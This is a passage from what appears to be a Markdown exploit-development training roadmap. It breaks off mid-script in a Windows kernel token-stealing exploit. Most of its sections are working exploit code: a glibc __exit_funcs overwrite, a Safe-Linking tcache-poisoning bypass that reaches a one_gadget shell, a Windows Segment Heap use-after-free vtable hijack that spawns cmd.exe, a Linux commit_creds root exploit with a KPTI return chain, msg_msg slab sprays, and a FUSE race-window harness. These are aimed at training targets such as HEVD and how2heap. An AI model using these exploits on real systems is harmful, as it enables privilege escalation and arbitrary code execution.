# File: exit_funcs_exploit.py -- Complete __exit_funcs overwrite
# Works when you have arbitrary write + libc leak on glibc 2.34-2.39

from pwn import *

p    = process('./heap_or_fmtstr_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

libc.address = 0x7f0000000000   # replace with actual

exit_funcs = libc.symbols['__exit_funcs']
one_gadget = libc.address + 0xebc81   # find with: one_gadget libc.so.6

# Fake exit_function entry using flavor=0 (ef_free -- no pointer mangling):
fake = p64(0)           # next = NULL
fake += p64(1)          # idx = 1
fake += p64(0)          # flavor = 0 (ef_free: called directly, no demangle)
fake += p64(one_gadget) # fn.free = one_gadget
fake += p64(0)          # arg (ignored for ef_free)

# Write this struct to __exit_funcs using your write primitive
# When exit() is called -> our one_gadget runs -> shell
```

```python
# FSOP path -- glibc 2.35: study House of Apple
# Reference: https://github.com/shellphish/how2heap
# git clone https://github.com/shellphish/how2heap
# cd how2heap && ls glibc_2.35/
# Study house_of_apple2.c and house_of_cat.c
```

---

## BLOCK 5: HEAP EXPLOITATION -- LINUX GLIBC MODERN

**Time: 4-5 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [pwn.college Heap Exploitation](https://pwn.college/system-security/heap-exploitation/) | Platform | 15 hrs | FREE | Best structured heap course. Do every module. |
| [how2heap](https://github.com/shellphish/how2heap) | Repository | 10 hrs | FREE | Working examples of every heap technique. Primary reference. |
| [glibc malloc internals](https://sourceware.org/glibc/wiki/MallocInternals) | Docs | 5 hrs | FREE | Read before how2heap. |
| [HeapLAB Articles (CrowdStrike)](https://www.crowdstrike.com/blog/heap-exploitation-course-series/) | Articles | 8 hrs | FREE | Excellent technique deep-dives. |

### glibc Allocator Internals

```c
// Every malloc'd region is stored as a "chunk"
// In-use chunk layout:
// prev_size  (8 bytes)  size of prev chunk (only valid if prev is free)
// size+flags (8 bytes)  size | A (NON_MAIN_ARENA) | M (MMAPPED) | P (PREV_INUSE)
// user data  ...        <- malloc() returns pointer here

// BINS:
// tcache:    per-thread cache | singly-linked | 7 chunks max per size class
//            sizes: 24-1032 bytes | 64 bins | MINIMAL CHECKS -> primary target
// fastbins:  singly-linked | chunks <= 160 bytes
// unsorted:  landing zone before chunks sorted into small/large
// small bins: doubly-linked | chunks < 512 bytes | integrity checks
// large bins: doubly-linked with skip list | chunks >= 512 bytes
```

### Technique 1 -- Tcache Poisoning (glibc < 2.32)

```c
char *a = malloc(0x20);
char *b = malloc(0x20);
free(a);   // tcache[0x20]: a -> NULL
free(b);   // tcache[0x20]: b -> a -> NULL

// UAF write to freed b:
*(char**)b = target_addr;
// tcache[0x20]: b -> target_addr

char *p1 = malloc(0x20);    // returns b
char *p2 = malloc(0x20);    // returns target_addr! arbitrary allocation
strcpy(p2, shellcode_or_ptr);
```

### Technique 2 -- Safe-Linking Bypass (glibc 2.32+: MANDATORY FOR 2027)

**CRITICAL:** glibc 2.32 introduced Safe-Linking. Ubuntu 22.04 = glibc 2.35. Ubuntu 24.04 = glibc 2.39. ALL use Safe-Linking. If you skip this, your tcache poisoning fails silently on every modern system.

```c
// Pre-2.32: chunk->fd = next_free_chunk  (raw pointer)
// Post-2.32: chunk->fd = next_free_chunk XOR (chunk_address >> 12)
//
// Key = (address_of_fd_field) >> 12
// BYPASS: UAF-read a freed chunk that is LAST in its tcache bin
//         (fd == NULL), so stored fd = NULL XOR key = key.
//         Reading it gives you the key directly.
```

```python
# File: safelink_bypass.py
from pwn import *

p   = process('./modern_heap_vuln')
elf = ELF('./modern_heap_vuln')

def alloc(size, data): ...
def free_chunk(idx): ...
def read_chunk(idx): ...
def write_chunk(idx, data): ...

# Step 1: Prime tcache -- free one chunk (LAST in bin)
alloc(0x28, b'AAAA')   # chunk A (idx 0)
free_chunk(0)          # A's fd = 0 XOR key = key (last in bin)

# Step 2: UAF read to leak Safe-Linking key
leaked_fd_bytes = read_chunk(0)
key = u64(leaked_fd_bytes.ljust(8, b'\x00'))
log.success(f'Safe-Linking key: {hex(key)}')

heap_base_approx = key << 12
log.success(f'Heap base (approx): {hex(heap_base_approx)}')

# Step 3: Allocate more chunks -- the next free chunk fd will be mangled
alloc(0x28, b'BBBB')   # chunk B (idx 1)
free_chunk(1)
free_chunk(0)   # double-free: tcache has B -> A
# B's mangled fd = A_address XOR key

# Step 4: UAF write to chunk B -- forge mangled fd pointing to target
target_addr = libc.symbols['__exit_funcs']   # or any write target
mangled     = (target_addr >> 12) ^ target_addr
write_chunk(1, p64(mangled))

# Step 5: Two allocations to reach target
alloc(0x28, b'X'*8)    # gets B
alloc(0x28, p64(one_gadget) + b'\x00'*20)  # gets target_addr!
```

---

## BLOCK 6: WINDOWS HEAP EXPLOITATION

**Time: 3-4 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [Windows Heap Exploitation Part 1](https://www.youtube.com/watch?v=gL45bjQvZSU) | YouTube | 2 hrs | FREE | NT heap internals, free list corruption |
| [Azeria Labs Heap Exploitation](https://azeria-labs.com/heap-overflow-sample-case/) | Blog | 3 hrs | FREE | Clear conceptual walkthrough |
| [Windows 10 Segment Heap Internals (BlackHat 2016)](https://www.blackhat.com/docs/us-16/materials/us-16-Yason-Windows-10-Segment-Heap-Internals.pdf) | PDF | 4 hrs | FREE | Mandatory for modern Windows heap |
| [HEVD Pool Exploitation](https://connormcgarr.github.io/2020/12/05/Kernel-Pool-Internals/) | Blog | 3 hrs | FREE | Kernel pool from user-mode perspective |

### NT Heap vs Segment Heap Architecture

```
NT Heap (classic, pre-Windows 10 RS4):
  Used by: most legacy processes, cmd.exe, notepad.exe
  Free list: doubly-linked list organized by size (ListHints, 128 entries)
  LFH (Low Fragmentation Heap): activates after 18+ allocations of same size
  Chunk header (8 bytes):
    [size:16][flags:8][smallTagIndex:8][PreviousSize:16][SegmentOffset:8][UnusedBytes:8]

Segment Heap (Windows 10 RS4+, released April 2018):
  Used by: Edge/Chromium, all modern UWP apps, Microsoft Office, system processes
  Backend: large allocations (>= 128KB)
  Large Block: >= 520KB
  VS (Variable Size) allocator: handles 512B-128KB
  LFH: handles allocations < 512B
  Security features:
    Header cookies (XOR'd with random per-heap seed)
    Guard pages between segments
    Randomized chunk ordering within LFH bins

KEY: In WinDbg: !heap -s  ->  look for "Segment heap enabled" flag
```

### NT Heap -- LFH Type Confusion Attack

```c
// File: nt_heap_lfh_confusion.c
// LFH activates after 18 allocations of the same size.
// Different struct types with the SAME allocation size share a bucket.
// UAF + controlled allocation = type confusion.

#include <windows.h>
#include <stdio.h>

typedef struct {
    void (*callback)(void);  // function pointer at offset 0
    char data[56];           // padding to 0x40 total
} ObjectA;

typedef struct {
    char input[8];           // attacker-controlled at offset 0
    char padding[56];
} ObjectB;

int main() {
    HANDLE heap = GetProcessHeap();

    // Trigger LFH for 0x40-byte bucket
    for (int i = 0; i < 20; i++) {
        void *p = HeapAlloc(heap, 0, sizeof(ObjectA));
        HeapFree(heap, 0, p);
    }

    ObjectA *victim = HeapAlloc(heap, 0, sizeof(ObjectA));
    victim->callback = (void(*)(void))0x00007ff700401234;

    HeapFree(heap, 0, victim);

    // LFH gives us the SAME chunk as victim
    ObjectB *attacker = HeapAlloc(heap, 0, sizeof(ObjectB));

    // Write our target address into ObjectB's input field (offset 0)
    // This overlaps with ObjectA's callback field (also offset 0)
    void (*evil)(void) = (void(*)(void))0x00007ff700402020;
    memcpy(attacker->input, &evil, 8);

    // UAF: trigger stale victim->callback
    victim->callback();   // calls our target function

    return 0;
}
```

### Segment Heap VS Allocator -- Type Confusion Exploit (GAP CLOSED)

The Segment Heap's VS (Variable Size) allocator handles 512B-128KB allocations. Previous roadmap versions described the architecture without a working PoC. This section closes that gap.

```c
// File: segment_heap_vs_confusion.c
// Target: Process using Segment Heap (Edge, Office, modern UWP)
// Technique: UAF -> re-allocate with controlled VS chunk -> vtable confusion
// Requirements: Windows 10 RS4+ VM, WinDbg Preview

#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// Custom heap using HeapCreate to guarantee Segment Heap behavior:
// HeapCreate with HEAP_NO_SERIALIZE on RS4+ defaults to Segment Heap.

// --- Struct definitions (same size in VS allocator range: 0x80 bytes each) ---

typedef struct VictimObj {
    void  (**vtable)(void);  // vtable pointer at offset 0
    DWORD  refCount;
    BYTE   data[116];        // pad to 0x80 = 128 bytes total
} VictimObj;

typedef struct ControlObj {
    ULONG_PTR gadget_addr;   // overlaps with vtable pointer at offset 0
    BYTE      padding[120];  // pad to 0x80 = 128 bytes total
} ControlObj;

// Attacker-controlled function that runs when victim->vtable[0]() is called:
void __cdecl evil_payload(void) {
    printf("[+] Code execution via Segment Heap type confusion!\n");
    // In a real exploit: shellcode, token steal, LPE chain
    system("cmd.exe");
}

// Fake vtable: one entry pointing at evil_payload
void (*fake_vtable[1])(void) = { evil_payload };

int main(void) {
    // Create a heap that uses Segment Heap (RS4+ default behavior)
    HANDLE heap = HeapCreate(0, 0, 0);
    if (!heap) { perror("HeapCreate"); return 1; }

    // ---- Phase 1: Spray to prime the VS allocator for 0x80-byte class --------
    // Allocate + free 32 times to ensure LFH bucket is warm for 0x80-byte class
    for (int i = 0; i < 32; i++) {
        void *p = HeapAlloc(heap, HEAP_ZERO_MEMORY, sizeof(VictimObj));
        HeapFree(heap, 0, p);
    }

    // ---- Phase 2: Allocate victim object and set up its vtable ----------------
    VictimObj *victim = (VictimObj *)HeapAlloc(heap, HEAP_ZERO_MEMORY, sizeof(VictimObj));
    if (!victim) { perror("HeapAlloc victim"); return 1; }

    // Point victim's vtable at a legitimate (safe) vtable:
    void (*safe_vtable[1])(void) = { (void(*)(void))puts };
    victim->vtable   = safe_vtable;
    victim->refCount = 1;

    printf("[*] VictimObj at: %p\n", victim);
    printf("[*] VictimObj->vtable: %p -> %p\n", victim->vtable, victim->vtable[0]);

    // ---- Phase 3: Free victim -- creates UAF condition -------------------------
    HeapFree(heap, 0, victim);
    // victim pointer is now DANGLING (stale reference retained)
    // In a real UAF bug: some other code path still holds a pointer to this chunk.
    // The VS allocator has returned the chunk to its free list.

    // ---- Phase 4: Re-allocate with ControlObj of same size --------------------
    ControlObj *ctrl = (ControlObj *)HeapAlloc(heap, HEAP_ZERO_MEMORY, sizeof(ControlObj));
    if (!ctrl) { perror("HeapAlloc ctrl"); return 1; }

    // Segment Heap VS allocator serves requests from the same size class.
    // With high probability, ctrl occupies the same memory as victim.
    // Verify in WinDbg: 'dp victim_addr' and 'dp ctrl_addr' -- same address.

    printf("[*] ControlObj at: %p\n", ctrl);
    printf("[*] Same memory as victim? %s\n",
           (void*)ctrl == (void*)victim ? "YES (exploit works)" : "NO (retry with more spray)");

    // ---- Phase 5: Write forged vtable pointer at offset 0 ---------------------
    // offset 0 of ControlObj (gadget_addr) overlaps offset 0 of VictimObj (vtable)
    ctrl->gadget_addr = (ULONG_PTR)fake_vtable;
    memset(ctrl->padding, 0xCC, sizeof(ctrl->padding));  // fill rest with int3 for visibility

    printf("[*] Forged vtable at: %p, points to: %p\n",
           fake_vtable, fake_vtable[0]);

    // ---- Phase 6: Trigger UAF -- code execution -------------------------------
    // The application's stale victim pointer still exists.
    // When it calls victim->vtable[0](victim), we execute evil_payload.
    printf("[*] Triggering UAF call on stale victim pointer...\n");
    victim->vtable[0]();   // dereferences forged vtable -> evil_payload()

    HeapDestroy(heap);
    return 0;
}
```

```
DEBUGGING IN WINDBG:
After HeapFree(victim) and before HeapAlloc(ctrl):
  !heap -x <victim_addr>        -- shows the freed chunk's status
  dp <victim_addr>              -- inspect raw memory

After HeapAlloc(ctrl):
  dp <ctrl_addr>                -- confirm same address as victim
  dp <ctrl_addr+0>              -- offset 0: should be our fake_vtable address

After forging:
  dps <fake_vtable_addr>        -- show vtable contents -> evil_payload pointer

NOTES ON SEGMENT HEAP COOKIES:
  VS chunk headers are XOR'd with a per-heap random seed (the "cookie").
  Corrupting the header directly requires knowing the seed.
  This exploit avoids header corruption entirely by targeting
  the OBJECT CONTENT (vtable pointer), not the heap metadata.
  This is the preferred modern technique because:
  1. It does not trigger VS coalescing
  2. It bypasses header cookie validation
  3. It works even when Safe Unlinking is active
```

---

## BLOCK 7: LINUX KERNEL EXPLOITATION

**Time: 4-6 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [Linux Kernel Exploitation - YouTube](https://www.youtube.com/watch?v=il1wGXeKJAo) | YouTube | 3 hrs | FREE | Module interaction and techniques |
| [pwn.college Kernel Exploitation](https://pwn.college/system-security/kernel-security/) | Platform | 20 hrs | FREE | Structured, starts from basics |
| [lkmidas kernel series](https://lkmidas.github.io/) | Blog | 10 hrs | FREE | CTF kernel series. Read all parts. |
| [Linux Device Drivers LDD3](https://lwn.net/Kernel/LDD3/) | Book | 30 hrs | FREE | Understanding driver internals |

### QEMU Kernel Lab Setup

```bash
# Build a vulnerable kernel for practice:
wget https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.15.tar.xz
tar -xf linux-5.15.tar.xz && cd linux-5.15

make defconfig
cat >> .config << 'EOF'
CONFIG_DEBUG_INFO=y
CONFIG_DEBUG_INFO_DWARF4=y
CONFIG_GDB_SCRIPTS=y
CONFIG_KGDB=y
CONFIG_KGDB_SERIAL_CONSOLE=y
CONFIG_RANDOMIZE_BASE=n
CONFIG_STACKPROTECTOR=n
CONFIG_SLAB=y
EOF
make -j$(nproc)

# Create minimal rootfs with busybox:
wget https://busybox.net/downloads/busybox-1.35.0.tar.bz2
tar -xf busybox-1.35.0.tar.bz2 && cd busybox-1.35.0
make defconfig && make CONFIG_STATIC=y -j$(nproc) && make install

mkdir -p ../rootfs/{bin,sbin,etc,proc,sys,dev}
cp -a _install/* ../rootfs/
cat > ../rootfs/init << 'INITEOF'
#!/bin/sh
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs none /dev
echo "Kernel: $(uname -r)"
setsid /bin/sh -c 'exec /bin/sh </dev/ttyS0 >/dev/ttyS0 2>&1'
INITEOF
chmod +x ../rootfs/init
(cd ../rootfs && find . | cpio -o --format=newc | gzip > ../rootfs.cpio.gz)

# Launch QEMU with GDB stub:
qemu-system-x86_64 \
    -kernel arch/x86/boot/bzImage \
    -initrd rootfs.cpio.gz \
    -append "console=ttyS0 nokaslr nopti nosmap nosmep" \
    -nographic \
    -s -S

# Connect GDB:
gdb vmlinux
target remote :1234
c
b commit_creds
```

### Kernel Exploit -- commit_creds Pattern

```c
// File: kernel_exploit.c
// Pattern: Kernel UAF/overflow -> kernel code execution
//          -> commit_creds(prepare_kernel_cred(NULL)) -> SYSTEM privileges

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

size_t user_rip, user_rsp, user_cs, user_rflags, user_ss;

void post_exploit();

void save_state() {
    __asm__ volatile(
        "mov %%cs, %0\n"
        "mov %%ss, %1\n"
        "mov %%rsp, %2\n"
        "pushfq\n"
        "pop %3\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
        : : "memory"
    );
    user_rip = (size_t)post_exploit;
}

#define COMMIT_CREDS          0xffffffff81081bc0
#define PREPARE_KERNEL_CRED   0xffffffff81081e80

typedef void* (*prepare_kernel_cred_t)(void*);
typedef int   (*commit_creds_t)(void*);

void kernel_payload() {
    prepare_kernel_cred_t prepare = (prepare_kernel_cred_t)PREPARE_KERNEL_CRED;
    commit_creds_t commit         = (commit_creds_t)COMMIT_CREDS;
    commit(prepare(NULL));
}

void post_exploit() {
    if (getuid() == 0) {
        puts("[+] Got root!");
        system("/bin/sh");
    } else {
        puts("[-] Failed to escalate");
    }
    exit(0);
}

int main() {
    int fd = open("/dev/vuln_module", O_RDWR);
    if (fd < 0) { perror("open"); exit(1); }

    save_state();

    size_t payload[64] = {0};
    payload[0] = (size_t)kernel_payload;
    write(fd, payload, sizeof(payload));

    close(fd);
    return 0;
}
```

### Kernel Mitigations and Bypasses

<div align="center">
<table><tr><td>



</td></tr></table>
</div>


```c
// KPTI-aware return from kernel ROP to userspace:
unsigned long kpti_trampoline = KASLR_BASE + 0x800e26;

size_t rop_chain[] = {
    // ... commit_creds gadgets ...
    kpti_trampoline,
    0,              // padding (trampoline pops this)
    0,              // padding
    (size_t)post_exploit,   // rip
    user_cs,
    user_rflags,
    user_rsp,
    user_ss,
};
```

---

## BLOCK 8: LINUX KERNEL SLUB/SLAB EXPLOITATION

**Time: 2-3 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [CVE-2022-0995 Analysis](https://www.openwall.com/lists/oss-security/2022/03/29/4) | Write-up | 3 hrs | FREE | Real SLUB exploit on modern kernel |
| [Kernel Heap Feng Shui SLUB](https://duasynt.com/blog/linux-kernel-heap-feng-shui-slub) | Blog | 4 hrs | FREE | Feng shui techniques for SLUB |
| [io_uring Heap Grooming](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html) | Blog | 3 hrs | FREE | Modern heap grooming primitives |
| [kernelpop](https://github.com/spencerdodd/kernelpop) | GitHub | 2 hrs | FREE | Reference for real CVE patterns |

### SLUB Allocator Internals

```
The SLUB allocator is the default Linux kernel memory allocator since kernel 2.6.23.

SLUB ARCHITECTURE:
  Objects of the same size share a "slab" (one or more pages).
  Each size class has its own per-CPU cache (kmem_cache_cpu).
  Per-CPU free list: singly-linked list through the objects themselves.

FREE OBJECT STRUCTURE:
  Free objects contain a forward pointer at offset 0.
  On kernel >= 6.1: pointer is obfuscated with a per-slab random seed
  (similar to Safe-Linking in glibc).

KEY INSIGHT: Objects of DIFFERENT struct types but SAME SIZE share the same slab.
This is the foundation of cross-cache and type confusion attacks.
```

### Cross-Cache Attack with msg_msg Spray

```c
// File: slub_crosscache.c
// Technique: SLUB cross-cache UAF using msg_msg spray
// Target: custom vulnerable kernel module with kmalloc(96) alloc

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/msg.h>
#include <string.h>

#define VULN_DEVICE    "/dev/vuln_module"
#define IOCTL_ALLOC    0x1001
#define IOCTL_FREE     0x1002
#define IOCTL_TRIGGER  0x1003

#define TARGET_SIZE    96     // must match kmalloc size in the vulnerable module
#define MSG_SIZE       (TARGET_SIZE - sizeof(long))  // mtype is sizeof(long)

void kernel_payload();   // forward declaration

int main(void) {
    int fd = open(VULN_DEVICE, O_RDWR);
    if (fd < 0) { perror("open"); exit(1); }

    // Phase 1: Spray -- fill kmem_cache-96 with msg_msg objects
    int msqids[256];
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } spray_msg;

    spray_msg.mtype = 1;
    size_t fake_fn_ptr = (size_t)kernel_payload;
    memcpy(spray_msg.mtext, &fake_fn_ptr, 8);
    memset(spray_msg.mtext + 8, 0xBB, MSG_SIZE - 8);

    for (int i = 0; i < 256; i++) {
        msqids[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666);
        if (msqids[i] < 0) { perror("msgget"); exit(1); }
        msgsnd(msqids[i], &spray_msg, MSG_SIZE, 0);
    }

    // Phase 2: Allocate target struct via vulnerable module
    ioctl(fd, IOCTL_ALLOC, TARGET_SIZE);

    // Phase 3: Free the target struct -- creates UAF
    ioctl(fd, IOCTL_FREE, 0);

    // Phase 4: Pressure-fill the freed slot
    int msqid_win = msgget(IPC_PRIVATE, IPC_CREAT | 0666);
    msgsnd(msqid_win, &spray_msg, MSG_SIZE, 0);

    // Phase 5: Trigger UAF
    ioctl(fd, IOCTL_TRIGGER, 0);

    if (getuid() == 0) {
        puts("[+] Root shell via SLUB cross-cache UAF!");
        system("/bin/sh");
    }

    close(fd);
    return 0;
}
```

### Elastic Objects Technique (GAP CLOSED)

The elastic objects technique uses `msg_msg` extended messages that can be resized at allocation time to bridge different size classes. It allows an attacker to reach a target in a different kmem_cache by resizing the spray object.

```c
// File: elastic_objects.c
// Technique: msg_msg elastic sizing to bridge size classes
//
// THEORY:
// A msg_msg header is fixed (48 bytes on x86-64).
// The message text follows immediately.
// Total allocation: sizeof(msg_msg) + msg_text_size
// By choosing msg_text_size, you control which kmem_cache the msg lands in.
//
// Example: target struct is 192 bytes (kmem_cache-192).
//          sizeof(msg_msg) = 48 bytes.
//          We need: 48 + text_size = 192
//          So: text_size = 144 bytes
//
// This lets you spray into ANY slab cache by choosing the right msg_text size.
//
// EXTENDED msg_msg (SEG_MSG) for large targets:
// If target > 4096 - sizeof(msg_msg), the message body spans multiple
// msg_msgseg structs. The first seg is in kmem_cache, the rest in page allocator.
// This extends the attack surface to large kernel objects.

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/msg.h>
#include <unistd.h>

// msg_msg internal structure (from kernel source include/linux/msg.h):
// struct msg_msg {
//     struct list_head  m_list;   // 16 bytes (two pointers)
//     long              m_type;   //  8 bytes
//     size_t            m_ts;     //  8 bytes  (message text size)
//     struct msg_msgseg *next;    //  8 bytes
//     void              *security;//  8 bytes
// };                              // = 48 bytes total
#define MSG_MSG_HDR_SIZE  48

// Build a spray message that lands in the EXACT kmem_cache for a given target size:
int spray_elastic(int msqid, size_t target_kmalloc_size,
                  void *payload, size_t payload_size)
{
    // Calculate text size to land in target_kmalloc_size cache:
    size_t text_size = target_kmalloc_size - MSG_MSG_HDR_SIZE;

    // Minimum text: 1 byte (msg_ts must be > 0)
    if (text_size < payload_size || text_size < 1) {
        fprintf(stderr, "Target size %zu too small for msg_msg\n", target_kmalloc_size);
        return -1;
    }

    // Build message: payload at front (overlaps interesting fields in target struct)
    struct msgbuf {
        long mtype;
        char mtext[4096];   // max single-segment msg
    } msg;

    msg.mtype = 1;
    memset(msg.mtext, 0x41, text_size);

    if (payload && payload_size > 0) {
        memcpy(msg.mtext, payload, payload_size);
    }

    if (msgsnd(msqid, &msg, text_size, 0) < 0) {
        perror("msgsnd");
        return -1;
    }

    printf("[*] Sprayed msg_msg: text_size=%zu -> kmem_cache-%zu\n",
           text_size, target_kmalloc_size);
    return 0;
}

// Example: spray to reach kmem_cache-192 (target struct is 192 bytes)
int main(void) {
    size_t target_struct_size = 192;   // change to match your target

    // Payload at offset 0 in the message text overlaps offset MSG_MSG_HDR_SIZE
    // in the target struct (if the target struct's interesting field is at that offset,
    // adjust accordingly).
    //
    // For a function pointer at offset 8 of the target struct:
    // Padding = 8 - MSG_MSG_HDR_SIZE? No -- msg_msg HDR is BEFORE the text.
    // The text starts at (target_struct_base + MSG_MSG_HDR_SIZE).
    // So to overwrite offset 56 of the target struct:
    //   text offset = 56 - 48 = 8 bytes into message text.
    size_t fn_ptr_offset_in_target = 56;
    size_t text_offset = fn_ptr_offset_in_target - MSG_MSG_HDR_SIZE;

    size_t fake_fn = (size_t)0xdeadbeefcafe1234;  // replace with real payload fn
    char payload[64] = {0};
    memcpy(payload + text_offset, &fake_fn, 8);

    // Create 512 queues for wide spray coverage:
    int msqids[512];
    for (int i = 0; i < 512; i++) {
        msqids[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666);
        if (msqids[i] < 0) { perror("msgget"); exit(1); }
        spray_elastic(msqids[i], target_struct_size, payload, sizeof(payload));
    }

    printf("[*] Spray complete. %d msg_msg objects in kmem_cache-%zu\n",
           512, target_struct_size);
    printf("[*] Now trigger UAF on the target struct to get code execution.\n");

    return 0;
}
```

### userfaultfd and FUSE Race Window (GAP CLOSED -- covers kernel 5.11+)

`userfaultfd` from unprivileged users was restricted in kernel 5.11+. For modern kernels, FUSE provides an equivalent controlled delay.

```c
// File: race_window_fuse.c
// Purpose: create a controlled race window in kernel 5.11+ (where unprivileged
//          userfaultfd is disabled) using FUSE filesystem operations.
//
// HOW IT WORKS:
// Mounting a FUSE filesystem lets you control when kernel operations on that
// filesystem complete. When the kernel calls your FUSE handler (in userspace),
// you can delay the response arbitrarily -- creating the same race window
// that userfaultfd provided via page fault handling.
//
// USE CASE: race condition exploits where two kernel code paths must interleave:
//   Path A: kernel allocates object, touches FUSE-backed file (stalls HERE)
//   Path B: we free the object and spray in the window
//   Resolution: we complete the FUSE operation, Path A continues with corrupted state.
//
// SETUP REQUIREMENTS:
//   - Linux with FUSE support: sudo apt install fuse libfuse-dev
//   - Kernel module or CVE that performs file operations on an attacker-controlled path

#define FUSE_USE_VERSION 31
#include <fuse3/fuse.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <pthread.h>

// Race window state:
static volatile int race_window_open = 0;
static volatile int race_triggered   = 0;

// Called when the kernel reads the trigger file -- this is where we stall:
static int fuse_read_trigger(const char *path, char *buf, size_t size,
                             off_t offset, struct fuse_file_info *fi)
{
    (void)fi;

    if (strcmp(path, "/trigger") == 0) {
        // Signal that we are now in the race window:
        race_window_open = 1;
        printf("[FUSE] Race window OPEN -- spray now\n");

        // Wait until spray is complete:
        while (!race_triggered) {
            usleep(100);   // tight poll
        }
        race_window_open = 0;
        printf("[FUSE] Race window CLOSED -- releasing kernel\n");

        // Provide minimal valid data so the kernel operation succeeds:
        if (offset == 0 && size >= 1) {
            buf[0] = 'X';
            return 1;
        }
        return 0;
    }

    return -ENOENT;
}

static int fuse_getattr_trigger(const char *path, struct stat *stbuf,
                                struct fuse_file_info *fi)
{
    (void)fi;
    memset(stbuf, 0, sizeof(struct stat));

    if (strcmp(path, "/") == 0) {
        stbuf->st_mode  = S_IFDIR | 0755;
        stbuf->st_nlink = 2;
        return 0;
    }
    if (strcmp(path, "/trigger") == 0) {
        stbuf->st_mode  = S_IFREG | 0444;
        stbuf->st_nlink = 1;
        stbuf->st_size  = 1;
        return 0;
    }
    return -ENOENT;
}

static struct fuse_operations fuse_ops = {
    .getattr = fuse_getattr_trigger,
    .read    = fuse_read_trigger,
};

// Attacker thread: waits for the race window and then sprays:
void *spray_thread(void *arg) {
    while (!race_window_open) usleep(10);
    printf("[SPRAY] Window open -- executing spray\n");

    // ---- INSERT YOUR SPRAY CODE HERE ----
    // Example: spray msg_msg objects into the freed kmem_cache slot
    // spray_elastic(msqids[i], target_size, payload, sizeof(payload));
    // --------------------------------------

    printf("[SPRAY] Spray complete -- closing window\n");
    race_triggered = 1;
    return NULL;
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Usage: %s <mountpoint>\n", argv[0]);
        fprintf(stderr, "  mkdir /tmp/fusemnt && %s /tmp/fusemnt\n", argv[0]);
        return 1;
    }

    // Start the spray thread (waits for the race window):
    pthread_t thr;
    pthread_create(&thr, NULL, spray_thread, NULL);

    // Mount FUSE filesystem (blocks until unmounted or error):
    printf("[*] Mounting FUSE at %s\n", argv[1]);
    printf("[*] Trigger race by: cat %s/trigger\n", argv[1]);
    printf("[*] Or have kernel code path read /trigger via your exploit\n");

    char *fuse_argv[] = { argv[0], argv[1], "-f", NULL };
    int   fuse_argc   = 3;
    return fuse_main(fuse_argc, fuse_argv, &fuse_ops, NULL);
}
```

```bash
# Build:
gcc -o race_fuse race_window_fuse.c $(pkg-config --cflags --libs fuse3) -lpthread

# Use:
mkdir /tmp/fusemnt
./race_fuse /tmp/fusemnt &

# From your exploit: trigger the kernel to read /tmp/fusemnt/trigger
# The spray_thread fires in the race window automatically
# Then the FUSE handler releases the kernel
fusermount3 -u /tmp/fusemnt   # cleanup
```

---

## BLOCK 9: WINDOWS KERNEL EXPLOITATION

**Time: 4-6 weeks | Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [HEVD - HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) | GitHub | 30 hrs | FREE | THE standard Windows kernel training target |
| [Connor McGarr - Kernel Exploitation](https://connormcgarr.github.io/) | Blog | 8 hrs | FREE | Excellent modern technique write-ups |
| [Windows Kernel Exploitation Workshop](https://github.com/rootkits-xyz/Windows-Kernel-Exploits) | GitHub | 10 hrs | FREE | Exploit collection with write-ups |
| [Alex Ionescu - Windows Internals](https://www.youtube.com/watch?v=dhjvLEHiGBM) | YouTube | 3 hrs | FREE | Architecture context. Watch before exploiting. |

### WinDbg Kernel Debugging Setup

```
SETUP: Two Windows VMs
  VM1 (DEBUGGER): runs WinDbg Preview
  VM2 (TARGET):   runs HEVD driver

VM2 (TARGET) -- run as Administrator:
  bcdedit /debug on
  bcdedit /dbgsettings net hostip:<VM1_IP> port:50000 key:1.2.3.4
  bcdedit /set testsigning on
  bcdedit /set nointegritychecks on
  Reboot VM2

VM1 (DEBUGGER):
  WinDbg Preview -> File -> Attach to Kernel -> Net tab
  hostip: VM2's IP | port: 50000 | key: 1.2.3.4
```

```
Essential WinDbg Kernel Commands:
  g                          continue execution
  Ctrl+Break                 break into debugger

  lm m HEVD                  show HEVD.sys base address
  !analyze -v                analyze crash/bugcheck

  dt nt!_EPROCESS            show EPROCESS structure layout
  dt nt!_EPROCESS <addr>     inspect specific process
  !process 0 0               list all processes

  # TOKEN OFFSETS (Windows 10 22H2 -- VERIFY WITH YOUR BUILD via dt nt!_EPROCESS):
  # UniqueProcessId:    0x440
  # ActiveProcessLinks: 0x448
  # Token:              0x4B8

  dd <addr>                  display DWORDs
  dq <addr>                  display QWORDs
  u <addr>                   disassemble
  bp nt!NtCreateFile         breakpoint on kernel function
  ba w8 <addr>               hardware breakpoint on 8-byte WRITE
```

### HEVD Stack Overflow -- Token Stealing

```python
# File: hevd_stack_overflow.py
import ctypes
import subprocess
from ctypes import windll, wintypes

GENERIC_READ          = 0x80000000
GENERIC_WRITE         = 0x40000000
OPEN_EXISTING         = 3
FILE_ATTRIBUTE_NORMAL = 0x80
IOCTL_STACK_OVERFLOW  = 0x222003

device = windll.kernel32.CreateFileW(
